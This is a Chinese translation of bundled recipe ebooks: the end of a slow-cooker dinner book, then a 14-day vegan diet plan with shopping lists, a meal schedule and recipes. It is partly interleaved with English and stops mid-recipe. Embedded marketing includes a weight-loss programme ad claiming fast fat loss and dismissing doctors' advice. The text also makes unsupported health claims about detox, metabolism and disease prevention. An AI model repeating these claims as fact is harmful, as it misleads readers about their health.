这道菜拥有鸡肉的浓郁和许多不同的风味可供享受，在锅中用低火烹饪大约需要 7 小时。这道菜可供大约 8 位家人或朋友食用，但准备起来几乎不超过 10 分钟。以下是这道菜所需的配料：

- 去皮鸡胸肉：8 块
- 浓缩奶油鸡汤：2 杯
- 柠檬汁：1/4 杯
- 水：半杯
- 芥末：1 汤匙
- 胡萝卜：8 根，切片
- 蒜粉：1.5 茶匙
- 熟鸡蛋面：4 杯
- 欧芹：用于装饰

#### 做法：

将所有配料加入锅中，但鸡胸肉、面条和欧芹除外。混合所有配料，然后加入鸡肉并拌匀。确保配料很好地覆盖鸡肉。下一步只是让锅工作大约 7 到 8 小时。到那时，你可以外出工作、在家放松，或者干脆为自己购物。等你回来时，这道菜就可以吃了。在顶部撒上欧芹，搭配面条和黄油豌豆食用。

## 第 14 天

那么这本电子书的最后一道食谱是牧场鸡肉。这又是一道慢炖锅食谱，准备起来几乎不超过 5 分钟。如果你在网上搜索这道食谱的外观，你一定会发现这道菜在味道上很诱人。这里的好处是，这道菜在现实中就像图片里看起来一样好。你可能也会认为这道菜非常复杂，会占用你很多时间。不过，请阅读下面的食谱，以

看这道菜有多简单。

### 牧场鸡

这道食谱最适合那些你太忙没时间给家人做顿好饭的日子。牧场鸡是那些你渴望美味餐点但繁忙的日程不允许你在厨房多花时间时的简单解决方案。这道菜准备大约需要5分钟，在慢炖锅中烹饪大约需要5小时。让我们看看所需的食材。

- 鸡胸肉：约1¼磅。
- 干塔可调味料：2汤匙
- 鸡汤：一杯半
- 干牧场沙拉酱调味料：1汤匙

#### 方法：

方法相当简单。你只需要把所有食材倒进慢炖锅，让它在5小时内发挥魔力即可。一旦鸡肉煮好，将其撕碎并放回锅中再焖30分钟。你的晚餐就准备好享用了。

## 结论

所以我们为你和你的家人提供了一个14天计划，让你免于每天做晚餐的麻烦。请务必尝试书中提到的菜肴，它们都绝对美味且超级简单易做。我们相信你和你的家人会喜欢这些菜肴！

所有食谱都是一倒即成晚餐食谱，你只需把所有食材倒进锅里，让锅来完成工作。在此期间你可以外出、聚会、在办公室工作，或简单地睡个美容觉来提升你的外貌。你无需额外费力就能为家人准备一顿美味的餐点，你会喜欢菜肴制作的便捷程度。

最后，如果你喜欢这本书，我想请你帮个忙，能否在亚马逊上为这本书留下评论？将不胜感激！

**点击此处在亚马逊上为本书留下评论！**

感谢并祝好运！

你还在等什么？今天就试试这些晚餐食谱，摆脱每天制作美味晚餐的烦恼吧！

感谢阅读我的书！希望你从中获得了巨大的价值。为了感谢你，我想赠送你更多免费的视频、书籍和健康相关信息！

只需点击下面的链接，并在我的网站上输入你的电子邮件地址！

如果你认真想要改变饮食和健康，你将获得的一切都会对你有用。我将提供：

- 我撰写的更多书籍
- 制作特色菜肴的视频
- 与健康相关的我最喜欢的产品信息
- 以及更多！

[点击此处获取所有这些信息！](#)

嘿，我希望你喜欢我的书。为了给你更多价值，我想提供一些免费内容，以及我最近尝试过的一种饮食的信息，它帮助我减掉了顽固的 unwanted 脂肪。

这个项目给了我减掉顽固脂肪并感觉年轻10岁的策略！

这个项目叫做 The Fat Diminisher。这种饮食在帮助人们实现减重目标方面取得了巨大成功。这个项目不仅帮助你减掉 unwanted 脂肪，还教你如何永久保持不反弹！

在短时间内减重一直被认为几乎是不可能完成的任务。多年来，医生和营养师一直告诉公众，要看到减重的进展或塑造完美身材需要数月甚至数年的努力。但这完全不真实。

人体具有高度适应性，能够在极短的时间内发生变化。想想看。如果人们可以通过几周的不健康饮食迅速增加大量脂肪，那么他们是否也能通过几周的健康饮食迅速减掉很多体重呢？当然可以。

但要快速减重你需要吃什么呢？从低碳水化合物、低脂肪、无糖、高蛋白，甚至‘穴居人’饮食——选择如此之多，普通人很难搞清楚应该使用哪种饮食来快速减重。一些这些饮食甚至对你应该吃什么、不应该吃什么提供了相互矛盾的信息。好吧，这一切即将改变。

***[立即观看视频！](#)***

如果你还没有，请务必查看我的新网站，*KindleBookSpot.com*。这是我一直在进行的全新项目，我真的希望它对我的读者有价值。我创建这个网站是因为我想让大家更轻松地在一个地方找到最热门的Kindle折扣书籍。以下是我的网站提供的一些详情：

- 最畅销免费Kindle书籍列表
- 折扣小说和非小说书籍
- 每周一书
- 精选书籍
- 在我的网站上推广你自己的书籍

这个网站不仅仅是为读者准备的，也是新晋作者在他们的书成为畅销书之前推广新书的地方。所以如果你想推广自己的书，请查看我的网站，*KindleBookSpot.com*。

我希望这个网站对你有用，也希望在那里见到你！

***订阅我们在KindleBookSpot的不断壮大的社区，以便在最好的书籍打折和免费时收到通知。***

# 14天素食计划

***在14天内减肥并改善健康***

***我最喜欢的饮食的奖励信息***

***在[KindleBookSpot.com](https://KindleBookSpot.com)获取更多免费和特价书籍***

## 目录

- 引言
- 第1章：素食的好处
- 第2章：开始素食饮食
- 第3章：饮食计划（14天指南）
- 第4章：早餐食谱
- 第5章：午餐食谱
- 第6章：晚餐食谱
- 第7章：零食和开胃菜
- 结论

我想感谢你并祝贺你下载了这本书，“*14天素食计划 – 在14天内减肥并改善健康*”。

为什么大多数人想到健康和健身时，第一反应是感到沮丧并好像整个想法不存在一样？当然我们不可能都是健身专家，但如果你真的认真想要恢复身材、感觉更好，有一些技巧可以帮助你实现一直想要的那种身材。无论是减肥还是更有精力，采用素食饮食都是一个很好的开始。

随着年龄增长，你身体的自然能量水平会下降，但这并不意味着你应该放弃健康目标。无论你处于人生的哪个阶段，你仍然可以做很多事情来改善你的身心健康，而阅读这本书就是过上你一直想要的生活的第一步。

这本书旨在教你如何通过使用素食开始过上更健康、更绿色的生活方式。这并不是为了帮助你快速减肥和感觉更健康而流行的潮流，而是应该鼓励你使用素食做出更健康的 lifestyle 选择，并在过程中重置你的生活方式。

本书包含经过验证的步骤和策略，教你如何在品尝各种美味菜肴的同时享受素食饮食。本书还将向你展示如何：

- 从零开始制作各种美味菜肴
- 享受素食饮食
- 为你的新饮食购物，确保你备齐所需
- 从饮食中获取大量营养
- 以及更多！

你还在等什么？开始阅读，今天就做出生活方式的改变吧！

再次感谢你下载这本书，我希望你喜欢它！

不要忘记查看我最喜欢的饮食之一，并在底部学习我用3周饮食快速减掉顽固脂肪的策略。

## 开始之前... 奖励：获取我提供的更多免费视频和书籍！

感谢阅读我的书！希望你从中获得了巨大的价值。为了感谢你，我想赠送你更多免费的视频、书籍和健康相关信息！

只需点击下面的链接，并在我的网站上输入你的电子邮件地址！

如果你认真想要改变饮食和健康，你将获得的一切都会对你有用。我将提供：

- 我撰写的更多书籍
- 制作特色菜肴的视频
- 与健康相关的我最喜欢的产品信息
- 以及更多！

[点击此处获取所有这些信息！](#)


## 第 1 章：素食的好处

许多人现在决定通过成为素食者来对生活做出重大改变。虽然对其他人来说素食似乎有些限制，但实际上这种饮食方式是多样化和营养的。

关于素食的好消息是，它有很多好处，其中一些你可能甚至不知道：

### 对健康有益

许多人决定成为素食者的原因之一，是因为它对健康非常有益。素食是植物性饮食，我们都知道植物对我们非常有益。低脂、高多种维生素和矿物质以及蛋白质的饮食，是保持健康的關鍵。

更重要的是，素食可以帮助你预防各种疾病和状况，例如：心脏病、癌症、肥胖、糖尿病等等。难怪越来越多的人决定成为素食者！

### 对动物有益

我们都见过动物为了我们想吃肉而遭受的不必要的痛苦。成为素食者就是你对这种痛苦说“不”的方式。当你不再购买肉类时，你会影响当地和国际的肉类生产，这意味着为餐桌宰杀的动物会更少。

### 对环境有益

并不是很多人知道素食生活方式对环境其实非常有益。这是因为它有助于降低与饲养动物以及肉类包装相关的碳足迹。

你知道吗，如果世界人口的一半成为素食者，挨饿的人会更少？这是因为牛和其他动物需要大量土地放牧。如果世界人口的一半成为素食者，那么养牛所需的土地就会减少。这样土地就可以用来种植作物。一块作物的田通常能养活比一块养牛的田多得多的人。此外，如果你喜欢植物性饮食，食物通常会变得更实惠，因为会有更多食物。

正如你所见，素食有很多好处。不仅可以帮助确保人人都有更多食物，而且你也会更有精力、皮肤更好，整体上也会更健康。难怪越来越多的人采纳素食生活方式。

你可能计划只素食14天，以帮助排毒，并从可用的各种素食友好食品中受益。如果是这样，你暂时还不需要考虑长期素食，除非你绝对确定这是你想做的事。我想鼓励你完全素食。如果由于某种原因你做不到，为什么不考虑每个月至少素食一周呢？这样你会感受到好处，环境也会受益。

## 第 2 章：开始素食饮食

开始新的饮食并不容易，但只要付出一点努力，你就能享受其中。不管你开始什么类型的饮食，你都需要努力尝试新食物，并在事情变得有点困难时坚持下去。

好消息是，你可以让自己更容易过渡到素食饮食。只要花一点时间和一点努力，你很快就会发现你喜欢素食饮食，并因此感觉更好。

### 不要以为会很容易

不幸的是，没有任何重大的饮食改变是容易的，但只要有一点意志力，你就可以完全素食，或确保顺利完成14天素食计划。你在旅途中可能会犯一些错误，包括发现你吃的食物含有奶酪、肉类或其他产品。这时有发生，但不要惊慌，继续吃素食，并尽力防止再次发生。

### 弄清楚你能吃什么和不能吃什么

起初，你可能会觉得饮食非常受限，但事实是，它受限的程度只取决于你认为的程度。当我第一次成为素食者时，我以为会非常困难，但事实是外面有比你想象中多得多的食物。

弄清楚你可以吃什么，并思考需要避开的食物。这需要一段时间才能掌握，但你会习惯的。当我成为素食者时，我会列出可以享受的食物清单，以及需要避开的食物清单。过了一段时间后，我不再需要查看清单，因为随着时间的推移，我知道什么类型的食物属于哪个清单。

### 了解有哪些合适的肉类和乳制品替代品

好消息是，有很多美味的替代品可供选择。从当地的健康食品店到当地的超市，几乎 everywhere 都有素食友好食品。

当然会有一些你喜欢的食物，也有一些你讨厌的食物，但这只是试错的过程。找出你喜欢的素食，并避开那些你真的不喜欢的。强迫自己吃不美味的东西对你没有好处。吃你喜欢的食物，你更有可能坚持素食计划。

### 了解在哪里可以获取食物

如上所述，你可以从健康食品店和超市获取食物。你也可以在线找到素食食品，甚至在专门的素食商店或活动中也能找到。你获取所需食物越容易，你就会发现素食生活方式越容易。

### 请某人加入你的旅程

即使你只计划素食14天，最好还是请某人加入你的旅程。这是因为这会让你的旅程变得容易得多。你可以交流心得，谈论你的困难。你也可以推荐烹饪方法，以及应该避免什么和不应该避免什么。

相信我，如果你计划改变两周的饮食习惯，带上一个人会让它容易得多。

### 不时奖励自己

不时给自己一些奖励，是保持高积极性的最佳方式。你给自己什么样的奖励完全由你决定，但它不应该影响你素食饮食的成功。在高档素食餐厅用餐，去看电影，享受参观你最喜欢的地方，或与朋友或家人见面，做你们都喜欢的事情。

为自己设定一个目标（例如完成14天素食计划），并奖励自己。

### 学会从零开始烹饪美味菜肴

因为有这么多美味的菜肴正等着你尝试，如果你不学会从零开始烹饪，你就会错过。有预包装的素食餐可供选择，但它们通常很贵，而且可能没有你希望的那么有营养。

学会从零开始烹饪，享受创造一些非常美味、能为身体提供所需营养的餐食。

## 购物指南

并不是每个人都知道素食者到底吃什么，他们大多认为我们吃蔬菜、扁豆和豆腐，但事实是，我们的饮食是多样化的。

### 琼脂：
如果你正在制作需要明胶的菜肴，请改用琼脂，因为它是理想的替代品。

### 豆类：
豆类是蛋白质的极佳来源，味道很好，而且口感也可以很像肉。购买并使用各种豆类，将它们作为饮食的一部分。请确保如果你购买预制或预包装豆类，它们仍然是素食友好的。

### 糙米：
糙米比其白米对应物更有营养，所以请改用它。

### 黄油状涂抹酱：
非氢化涂抹酱

### Couscous：
如果可以，请选择全麦库斯库斯，因为它比普通的那种更有营养。

### 无乳制品奶酪：
你现在可以购买许多不同品牌和口味的无乳制品奶酪。有切片、奶油奶酪般的质地、刨丝或调味的，没有理由为你

感觉自己一点也不错过奶酪。

### Egg substitutes:
鸡蛋替代品：

Egg substitutes can be a great alternative, and they also taste pretty good too. You can buy vegan egg yolks, but they are hard to find, so you may have to stick with the dried substitute for now.
鸡蛋替代品可以是不错的替代选择，而且味道也相当不错。你可以买到素食蛋黄，但它们很难找到，所以你可能暂时只能使用干的替代品。

### Fruits and vegetables:
水果和蔬菜：

A vegan diet can contain as many fruits and vegetables as you like. Just make sure that if you’re buying prepared fruits and vegetables, that they are vegan-friendly.
素食饮食可以包含你喜欢的任意多水果和蔬菜。只要确保如果你购买的是加工水果和蔬菜，它们是适合素食的。

### Milk:
牛奶：

- Almond
- Rice
- Hemp
- Soy
- 杏仁
- 大米
- 大麻
- 大豆

### Nutritional yeast:
营养酵母：

Nutritional yeast is used to give foods a cheese-like consistency. It’s cholesterol-free and is perfect for using in cheese flavor sauces.
营养酵母用于使食物具有类似奶酪的质地。它不含胆固醇，非常适合用于奶酪味酱料。

### Nuts:
坚果：

Nuts are incredibly high in protein, and they can be added to a variety of dishes, and they can also be enjoyed on their own. If you’re missing a meaty flavor and texture, I recommend eating chestnuts, as they are very meaty.
坚果蛋白质含量极高，可以添加到各种菜肴中，也可以单独食用。如果你想念肉类风味和口感，我推荐吃板栗，因为它们非常有肉感。

### Pasta:
意面：

Pasta comes in all shapes and sizes, and it’s one of those foods that can make a meal out of just a few ingredients. If you want to go extra-healthy, opt for whole-wheat or multi-grain pasta.
意面有各种形状和大小，是那种用少量食材就能做出一顿饭的食物。如果你想更健康一些，请选择全麦或多谷物意面。

### Quinoa:
藜麦：

Quinoa doesn’t just taste great, but it’s also very high in protein, and it can be added to a wide range of dishes.
藜麦不仅味道很棒，而且蛋白质含量也很高，可以添加到各种菜肴中。

### Seitan:
小麦蛋白：

This is made from wheat gluten and can be fried or baked. Seitan is a great source of protein, but it’s also good if you want your dishes to be chewy.
它由小麦面筋制成，可以油炸或烘烤。小麦蛋白是蛋白质的良好来源，而且如果你想要菜肴有嚼劲，它也很不错。

### Soy yogurt:
豆奶酸奶：

Available in different flavors, soy yogurt can be a real treat.
有多种口味可供选择，豆奶酸奶可以是一种真正的享受。

### Tempeh:
天贝：

This is a soy bean based meat-substitute, that is quite thick and has a savory flavor. It’s absolutely ideal for grilling.
这是一种基于大豆的肉类替代品，质地相当厚实，味道鲜美。烤制时绝对理想。

### Tofu:
豆腐：

This can be added to a wide range of dishes, and is made from soy bean curd. It’s best used as a means of soaking up flavor from other ingredients.
它可以添加到各种菜肴中，由大豆凝乳制成。最好将其用作吸收其他食材风味的媒介。

### Vegetable burgers:
蔬菜汉堡：

Vegetable burgers can be a tasty and nutritious alternative to meat-containing burgers. The trouble is that veggie burgers can also be high in fat, so make sure you check out the fat content before you buy them.
蔬菜汉堡可以是美味且营养的肉类汉堡替代品。问题是素食汉堡脂肪含量也可能很高，所以购买前请务必查看脂肪含量。

There are many other vegan-friendly foods available, but if I added them all, the list would go on and on. The more you delve into the vegan world, the more ingredients and foods you will discover. Don’t be afraid to search the internet, and your local stores for other ingredients, as you could find something quite special.
还有许多其他适合素食的食物，但如果我全部列出，清单会没完没了。你越深入素食世界，就会发现越多的食材和食物。不要害怕在网上和当地商店寻找其他食材，你可能会找到一些特别的东西。

## Key Foods and Ingredients
主要食物和食材

Take a look at the nutrients I mention, and the foods that contain them. This will help you to refine your shopping list so you end up eating a wide variety of tasty and nutritious foods:
请查看我提到的营养素以及含有它们的食品。这将帮助你完善购物清单，让你最终吃到各种美味且营养的食物：

*Please note, there are many other foods you can eat, but the list below shows those foods that are particularly nutritious.
*请注意，还有许多其他食物可以吃，但下面的清单显示的是那些特别有营养的食物。

### Calcium:
钙：

- Almonds
- Flaxseed
- Soy beans
- Broccoli
- Kale
- Sunflower seeds
- Chick peas
- Lentils
- Tempeh
- Hazelnuts
- Kidney beans
- Tofu that contains calcium sulphate
- Fortified breakfast cereals
- Navy beans (Haricot beans)
- Fortified non-dairy milk
- Okra
- Fortified non-dairy yogurt
- Oranges
- Fortified orange juice
- Pinto Beans
- Fortified soy products
- Pistachio nuts
- Figs
- Sesame seeds
- 杏仁
- 亚麻籽
- 大豆
- 西兰花
- 羽衣甘蓝
- 向日葵籽
- 鹰嘴豆
- 扁豆
- 天贝
- 榛子
- 肾豆
- 含硫酸钙的豆腐
- 强化早餐麦片
- 海军豆（芸豆）
- 强化非乳制牛奶
- 秋葵
- 强化非乳制酸奶
- 橙子
- 强化橙汁
- Pinto 豆
- 强化大豆制品
- 开心果
- 无花果
- 芝麻

### Iron:
铁：

- Chickpeas
- Navy beans (Haricot beans)
- Fortified vegetable burgers
- Pinto beans
- Fortified soy products
- Quinoa
- Goji Berries
- Raisins
- Kidney beans
- Soy beans
- Lentils
- Tofu
- 鹰嘴豆
- 海军豆（芸豆）
- 强化蔬菜汉堡
- Pinto 豆
- 强化大豆制品
- 藜麦
- 枸杞
- 葡萄干
- 肾豆
- 大豆
- 扁豆
- 豆腐

### Omega 3's:
Omega 3：

- Flaxseed oil
- Ground flax seeds
- 亚麻籽油
- 磨碎的亚麻籽

### Protein:
蛋白质：

- Beans
- Tempeh
- Lentils
- Tofu
- Nuts
- Vegetables
- Seeds
- 豆类
- 天贝
- 扁豆
- 豆腐
- 坚果
- 蔬菜
- 种子

### Vitamin B12:
维生素 B12：

- Nutritional yeast
- Non-dairy milk
- Fortified breakfast cereals
- Vegan Vitamin B12 supplements
- 营养酵母
- 非乳制牛奶
- 强化早餐麦片
- 素食维生素 B12 补充剂

### Fortified foods
强化食品

### Vitamin D:
维生素 D：

Vegan Vitamin D supplements
素食维生素 D 补充剂

## Chapter 3: Diet Plan (14 Day Guide)
第 3 章：饮食计划（14 天指南）

In order to get the most from your diet plan, you may want to think about giving yourself a bit of an advantage. If you’re thinking of going vegan so that you can lose some weight, and improve your health, then check out the advice that I have written below:
为了充分利用你的饮食计划，你可能想给自己一点优势。如果你考虑素食是为了减肥和改善健康，那么请查看我下面写的建议：

### Water
水

Staying hydrated is so important, not only does it ensure your body isn’t lacking fluids, but it’s also essential in other ways too. Drinking enough water will leave you feeling less stressed, it will help to banish toxins, and your skin will be so much better for it. Incredibly, having enough water will also help you to lose weight, and sleep better at night. There really is no reason for you not to have 8 glasses of water per day.
保持水分充足非常重要，不仅能确保身体不缺水，在其他方面也很重要。喝足够的水会让你感觉压力更小，有助于排出毒素，你的皮肤也会因此变得更好。令人难以置信的是，充足的水分还能帮助你减肥，并在夜间睡得更好。真的没有任何理由让你每天不喝 8 杯水。

### Exercise
锻炼

Exercise is crucial if you want to stay in shape, and as you’ll have more energy thanks to your vegan diet, you’ll feel more inclined to exercise. Don’t assume that because you’re not consuming meat and dairy products that you cannot exercise. If vegan bodybuilders can exercise without eating meat, you can too.
如果你想保持身材，锻炼至关重要，而且由于素食饮食让你更有精力，你会更倾向于锻炼。不要认为因为你不吃肉和乳制品就不能锻炼。如果素食健美运动员不吃肉也能锻炼，你也可以。

### Meal times
用餐时间

Meal times should be a regular thing, and you should never skip a meal, even if you’re not feeling hungry. Always have something to eat, as it will get your metabolism going, and that means you’re more likely to lose weight.
用餐时间应该是规律的，即使你不感到饥饿，也绝不要跳过一餐。一定要吃点东西，因为它会启动你的新陈代谢，这意味着你更有可能减肥。

Another important note, is that you should never skip breakfast. Those who don’t have any breakfast are more likely to be overweight. This is because breakfast gets your metabolism working, and it gives you the energy you need to get going.
另一个重要提示是，你绝不要跳过早餐。那些不吃早餐的人更有可能超重。这是因为早餐能让新陈代谢开始工作，并提供你开始一天所需的能量。

Below you will find a guide as to the kinds of foods you should think about eating during your 14 day vegan plan. This guide is just as suggestion, and you may find that you prefer to eat other meals.
下面你会找到一份指南，说明在 14 天素食计划期间应考虑吃哪些食物。这份指南只是建议，你可能会发现自己更喜欢吃其他餐食。

Take a look at the plan below, and tailor it to your needs and tastes if you wish. One of the most important things you should do, is to enjoy eating a vegan diet, as you’re likely to have more success.
请查看下面的计划，并根据需要和口味进行调整。如果你想的话。最重要的事情之一就是享受素食饮食，因为你更有可能成功。

*Please note, the recipes for some of the dishes can be found in the next chapter.
*请注意，部分菜肴的食谱可以在下一章找到。

### Day One
第一天

Breakfast: Fortified breakfast cereal or mango and coconut smoothie
早餐：强化早餐麦片或芒果椰子奶昔

Snack: Peanut butter and pecan bites
小吃：花生酱和山核桃小块

Lunch: Chickpea salad
午餐：鹰嘴豆沙拉

Snack: A piece of fruit or vegan yogurt
小吃：一块水果或素食酸奶

Dinner: Chickpea and spinach curry
晚餐：鹰嘴豆菠菜咖喱

### Day Two
第二天

Breakfast: Fortified breakfast cereal or mushroom and tomato pancakes
早餐：强化早餐麦片或蘑菇番茄煎饼

Snack: Fruit
小吃：水果

Lunch: Japanese noodles
午餐：日本面条

Snack: A piece of fruit or vegan yogurt
小吃：一块水果或素食酸奶

Dinner: Lentil lasagna
晚餐：扁豆千层面

### Day Three
第三天

Breakfast: Fortified breakfast cereal or vegan yogurt with granola
早餐：强化早餐麦片或配格兰诺拉麦片的素食酸奶

Snack: Trail mix
小吃：健行混合干果

Lunch: Spinach salad
午餐：菠菜沙拉

Snack: A piece of fruit or vegan yogurt
小吃：一块水果或素食酸奶

Dinner: The meal of your choice (Treat yourself)
晚餐：你选择的餐食（犒赏自己）

### Day Four
第四天

Breakfast: Fortified breakfast cereal or a bagel with vegan-friendly cream cheese
早餐：强化早餐麦片或配素食奶油奶酪的贝果

Snack: Fruit smoothie
小吃：水果奶昔

Lunch: Mexican salad
午餐：墨西哥沙拉

Snack: A piece of fruit or vegan yogurt
小吃：一块水果或素食酸奶

Dinner: Baked potato with vegan-friendly eggs and salad
晚餐：烤土豆配素食友好型鸡蛋和沙拉

### Day Five
第五天

Breakfast: Fortified breakfast cereal or Scrambled tofu
早餐：强化早餐麦片或炒豆腐

Snack: Apricot protein bar
小吃：杏子蛋白棒

Lunch: Coconut and bean soup
午餐：椰子和豆汤

Snack: A piece of fruit or vegan yogurt
小吃：一块水果或素食酸奶

Dinner: Loaded bell peppers
晚餐：填满的甜椒

### Day Six
第六天

Breakfast: Fortified breakfast cereal or Vegan-friendly French toast
早餐：强化早餐麦片或素食友好型法式吐司

Snack: Seed mix
小吃：种子混合物

Lunch: Tofu with tamarind
午餐：罗望子豆腐

Snack: A piece of fruit or vegan yogurt
小吃：一块水果或素食酸奶

Dinner: Veggie burgers with salad
晚餐：蔬菜汉堡配沙拉

### Day Seven
第七天

Breakfast: Fortified breakfast cereal or non-dairy yogurt with fruit
早餐：强化早餐麦片或配水果的非乳制酸奶

Snack: An apple or orange
小吃：一个苹果或橙子

Lunch: Baked potato with vegetables
午餐：烤土豆配蔬菜

Snack: A piece of fruit or vegan yogurt
小吃：一块水果或素食酸奶

Dinner: Quick veg pasta
晚餐：快手蔬菜意面

### Day Eight
第八天

Breakfast: Fortified breakfast cereal or mango and coconut smoothie
早餐：强化早餐麦片或芒果椰子奶昔

Snack: Peanut butter and pecan bites (Energy bites)
小吃：花生酱和山核桃小块（能量小块）

Lunch: Chickpea salad
午餐：鹰嘴豆沙拉

Snack: A piece of fruit or vegan yogurt
小吃：一块水果或素食酸奶

Dinner: Chickpea and spinach curry
晚餐：鹰嘴豆菠菜咖喱

### Day Nine
第九天

Breakfast: Fortified breakfast cereal or mushroom and tomato pancakes
早餐：强化早餐麦片或蘑菇番茄煎饼

Snack: Fruit
小吃：水果

Lunch: Japanese noodles
午餐：日本面条

Snack: A piece of fruit or vegan yogurt
小吃：一块水果或素食酸奶

Dinner: Lentil lasagna
晚餐：扁豆千层面

### Day Ten
第十天

Breakfast: Fortified breakfast cereal or vegan yogurt with granola
早餐：强化早餐麦片或配格兰诺拉麦片的素食酸奶

Snack: Trail mix
小吃：健行混合干果

Lunch: Spinach salad
午餐：菠菜沙拉

Snack: A piece of fruit or vegan yogurt
小吃：一块水果或素食酸奶

Dinner: The meal of your choice (Treat yourself)
晚餐：你选择的餐食（犒赏自己）

### Day Eleven
第十一天

早餐：强化早餐麦片或配素食友好奶油奶酪的贝果

小吃：水果奶昔

午餐：墨西哥沙拉

小吃：一块水果或素食酸奶

晚餐：烤土豆配素食友好鸡蛋和沙拉

### 第十二天

早餐：强化早餐麦片或炒豆腐

小吃：杏子蛋白棒

午餐：椰子和豆子汤

小吃：一块水果或素食酸奶

晚餐：填馅甜椒

### 第十三天

早餐：强化早餐麦片或素食友好法式吐司

小吃：种子混合物

午餐：罗望子豆腐

小吃：一块水果或素食酸奶

晚餐：蔬菜汉堡配沙拉

### 第十四天

早餐：强化早餐麦片或配水果的非乳制酸奶

小吃：一个苹果或橙子

午餐：烤土豆配蔬菜

小吃：一块水果或素食酸奶

晚餐：快手蔬菜意面

14 天素食计划是一个非常健康且可持续的计划，可以帮助你改善健康、获得更多能量并帮助你减肥。该计划专门设计以确保你享受均衡美味的饮食，同时对环境的影响也大大减少。该计划还允许你保持无肉无奶饮食，而不会错过那些不道德食用的食物。

## 第 4 章：早餐食谱

### 芒果椰子奶昔

配料：

- 200 毫升无乳制椰奶
- 1 根香蕉
- 1 汤匙磨碎亚麻籽
- 4 汤匙素食友好酸奶
- 1 汤匙葵花籽
- 1 汤匙南瓜籽
- 120 克冷冻或冷藏芒果块

做法：

将所有配料放入奶昔机或搅拌机中，搅拌至顺滑。顺滑后倒入玻璃杯中即可食用。

### 蘑菇番茄煎饼

配料：（制作 8 个）

- 140 克自发面粉
- 400 毫升豆奶
- 一小撮盐
- 1 茶匙豆粉
- 2 汤匙植物油
- 250 克小蘑菇
- 2 汤匙豆奶或奶油
- 250 克对半切开的小番茄
- 一小把松子

做法：

将所有面粉过筛，放入搅拌机中，然后加入牛奶。搅拌至混合物顺滑。现在将约 3 汤匙混合物倒入平底锅，煮至混合物表面出现气泡。现在是翻面的时间，另一面煎至呈漂亮的金黄色。

混合物变棕后取出放在盘子上。现在用剩余混合物重复操作。

煎饼冷却时，将蘑菇放入平底锅中，煮至变软。现在加入番茄，煮约 2 分钟。加入豆奶或奶油和松子，小火煮至配料融合。

取 2 个盘子，每个盘子上放 4 个煎饼，上面放蘑菇和番茄，即可食用。

### 素食友好法式吐司

配料：（供 3 人）

- 2 汤匙面粉
- 1 杯豆奶
- 1 汤匙营养酵母
- 1 茶匙香草精
- 1 茶匙糖
- 6 片全麦面包
- 一小撮肉豆蔻

做法：

将除面包外的所有配料加入碗中，混合均匀。现在将面包浸入混合物中，直至裹满。取一个烤盘或平底锅，将浸泡过的面包煎至一面变棕，然后翻面，重复操作。食用。

### 炒豆腐

配料：（供 3 人）

- 2 茶匙橄榄油
- 16 盎司冲洗并切碎的豆腐
- 半茶匙干洋葱
- 3 汤匙营养酵母片
- 一小把蘑菇
- 1 个切片小洋葱
- 1 瓣大蒜
- 1.5 汤匙酱油
- 白胡椒粉

做法：

在中火上用平底锅烹饪豆腐，搅拌至金黄色。加入洋葱和酵母，搅拌至豆腐均匀裹上。现在加入橄榄油、蘑菇、洋葱和大蒜，煮至蘑菇变软。现在撒上酱油和白胡椒粉，搅拌至所有液体被吸收。食用。

## 第 5 章：午餐食谱

### 鹰嘴豆沙拉

配料：（供 5 – 6 人）

- 200 克煮熟的 bulgur 小麦
- 1 根切丁的韭菜
- 50 克松子
- 2 个柠檬的汁
- 3 汤匙橄榄油
- 400 克鹰嘴豆
- 50 克葡萄干
- 4 汤匙欧芹
- 一小把生菜叶和红椒
- 1 根切碎的芹菜
- 1 个切碎的萝卜

做法：

将松子轻轻烤至金黄色，然后将所有配料混合在一个碗中。必要时调味，即可食用。

### 日本面条

配料：（供 2 人）

- 200 克荞麦面
- 1 个薄切红椒
- 100 克荷兰豆
- 2 汤匙水
- 2 茶匙烤芝麻
- 半根切片黄瓜
- 2 汤匙酱油
- 2 汤匙米醋
- 2 汤匙芝麻酱
- 1 汤匙糖

做法：

将水和芝麻酱混合，然后加入酱油搅拌。现在加入醋和糖再次搅拌，放置一旁。

煮面条并分到 2 个盘子或碗中。加入荷兰豆、黄瓜和辣椒，然后淋上调料。撒上芝麻，即可食用。

### 菠菜沙拉

配料：（供 4-5 人）

- 2 汤匙米醋
- 2 汤匙橄榄油
- 1 汤匙烤芝麻油
- 2 汤匙新鲜橙汁
- 1 瓣大蒜
- 1 汤匙龙舌兰糖浆
- 四分之一汤匙烟熏甜椒粉
- 2 个切碎的中等大小甜椒
- 半个切片洋葱
- 一把切碎的菠菜
- 半个切片橙子
- 芝麻用于装饰

做法：

将米醋、橄榄油、橙汁、龙舌兰糖浆、芝麻油、烟熏甜椒粉和大蒜放入搅拌机中，搅拌至配料融合。放置一旁，然后将洋葱、菠菜、橙片、辣椒和洋葱加入大碗中混合。

现在将橙子和芝麻调料撒在配料上，并加入一些芝麻。食用。

### 墨西哥沙拉

配料：（供 4 人）

- 1 茶匙墨西哥调味料
- 3 个切碎的面粉玉米饼
- 1 汤匙橄榄油
- 1 个撕碎的冰山生菜
- 200 克对半切开的小番茄
- 400 克沥干的黑豆
- 1 个青柠的汁
- 2 个去皮切片的牛油果
- 半把香菜叶

做法：

将玉米饼块加入烤盘，加入调味料和橄榄油。在 200°C 下烘烤约 10 分钟，或直至玉米饼块变脆。

现在将豆子、生菜和番茄放入碗中，加入青柠汁和牛油果拌匀。

玉米饼烤好后，放入碗中加入剩余配料，再次拌匀。食用。

### 椰子和豆子汤

配料：（供 4 人）

- 半把切片青葱（绿白部分分开）
- 1 汤匙葵花籽油
- 1 个切丁红椒
- 1 茶匙干百里香
- 1 瓣切碎的大蒜
- 1 个切碎并压成糊的辣椒
- 2 个青柠的汁
- 1 茶匙五香粉
- 1 茶匙咖喱粉
- 800 克椰奶
- 3 个切碎的李子番茄
- 1 块蔬菜高汤块
- 410 克腰豆
- 410 克黑眼豌豆
- 410 克 Pinto 豆

做法：

将葵花籽油加入平底锅，然后加入辣椒、青葱白色部分、大蒜和辣椒糊。煮约 5 分钟直至配料变软。现在加入香料、百里香和咖喱粉，再煮 1 分钟。加入番茄，煮 2 分钟。

现在取高汤块加入锅中，然后加入椰奶和所有豆子。将配料小火慢煮约 10 分钟。从火上移开，加入

青柠汁和大部分的青葱绿叶。

将汤分到碗中，并加入剩余的青葱绿叶。食用。

### 酸角豆腐

配料：（4人份）

- 2汤匙适合素食的黄油
- 2包豆腐
